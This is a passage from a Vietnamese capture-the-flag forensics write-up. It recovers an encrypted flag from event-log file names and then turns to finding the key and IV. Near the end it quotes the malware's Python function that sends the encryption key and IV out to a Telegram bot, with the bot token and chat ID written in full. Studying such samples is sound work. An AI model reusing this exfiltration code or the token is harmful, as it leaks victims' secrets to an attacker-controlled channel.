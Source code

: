 ```powershell
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```

Có thể thấy `999999z.txt` thì kí tự `z` sẽ nằm ở vị trí số `999999 / 111111 = 9` trong nội dung `flag.txt` bị mã hoá. Vậy để tìm ra toàn bộ ta sẽ phải xuất nội dung của file evtx ra rồi tạo một cái script để lấy từ đó các đoạn này `C:\Users\tamin\AppData\Local\Temp\encrypt\999999z.txt` 

```py
import re

def extract_txt_filenames(input_file, output_file):
    pattern = r'([\w\d]+\.txt)' 

    with open(input_file, 'r', encoding='utf-8', errors='ignore') as f:
        content = f.read()

    matches = re.findall(pattern, content)
    unique_matches = sorted(set(matches)) 

    with open(output_file, 'w', encoding='utf-8') as f:
        for match in unique_matches:
            f.write(match + '\n')

# Gọi hàm
extract_txt_filenames('logs.txt', 'filenames_only.txt')

```

Xong rồi tự so độ lớn rồi lấy chữ cái ở cuối là được flag bị mã hoá

```bash
iUA7NgcGzu5bisAZiTYG42l8EiwsX16DX4sw5VLboU_5Y2HOUve+dEJncWg08kdI
```

Nhưng flag đang ở dạng filename safe nên ta cần chuyển lại dạng gốc. Script trên chỉ thay các kí tự không được dùng khi đặt tên file như `\ / : * ? ' < > |` thành `_` và trong đoạn b64 kia chỉ có 1 `_` nên ta chuyển nó thành kí tự b64 hợp lệ `/`

```
iUA7NgcGzu5bisAZiTYG42l8EiwsX16DX4sw5VLboU/5Y2HOUve+dEJncWg08kdI
```

## Tìm key và iv

Giờ chỉ cần tìm key và IV. Mọi thứ đều bị xoá trên máy nạn nhân, tìm trong các file evtx cũng không có gì. Đến đây khi phân tích lại code python lúc đầu thì thấy rằng

```py
def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)
    
#.........................................................................#

if cee and vee:
        telegram_token = '7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0'
        chat_id = '1617506446'
        send_to_telegram(cee, vee, telegram_token, chat_id)
```
